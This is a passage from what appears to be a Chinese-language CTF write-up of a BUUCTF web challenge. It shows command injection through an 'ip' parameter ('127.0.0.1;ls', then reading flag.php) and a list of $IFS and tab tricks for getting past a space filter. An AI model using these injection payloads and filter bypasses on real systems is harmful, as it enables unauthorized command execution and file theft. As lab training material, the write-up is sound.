 那么就用命令注入的思路先尝试一下执行多条命令:

```
?ip=127.0.0.1;ls
```

<img src="/images/buuctf-web/image-20221013203834440-166704781973311.png" alt="image-20221013203834440" style="zoom:67%;" />

下面尝试用`cat flag.php`来读取:

<img src="/images/buuctf-web/image-20221013203934482-166704781973412.png" alt="image-20221013203934482" style="zoom:67%;" />

空格应该是被过滤了...

那么尝试一些**空格的代替选项:**

```
$IFS、${IFS}、$IFS$9、%09（在URL上使用较多）、<、>、<>、{,}、%20(space)、%09(tab)
```

```
?ip=127.0.0.1;cat$IFSflag.php
```

